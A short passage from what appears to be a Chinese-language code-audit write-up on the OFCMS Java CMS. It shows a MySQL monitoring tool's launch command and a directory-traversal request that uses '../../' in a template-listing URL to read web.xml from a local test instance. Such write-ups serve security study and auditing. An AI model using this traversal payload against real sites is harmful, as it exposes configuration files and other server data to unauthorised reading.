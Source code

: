front下是一部分模板文件

整个项目是通过多个maven子项目加上tomcat进行搭建的

MySQL监控工具

https://github.com/TheKingOfDuck/MySQLMonitor

```
java -jar MySQLMonitor.jar -h 127.0.0.1 -user root -pass root
```

![image-20230417110919790](images/10.png)

# 漏洞挖掘

## 目录遍历

这个可以去读到一部分文件，但是只针对与xml和html文件，但是可以去看到整个目录

```
http://localhost:8081/ofcms_admin_war_exploded/admin/cms/template/getTemplates.html?file_name=web.xml&dir=../../&dir_name=default
```

![image-20230417154037689](images/11.png)
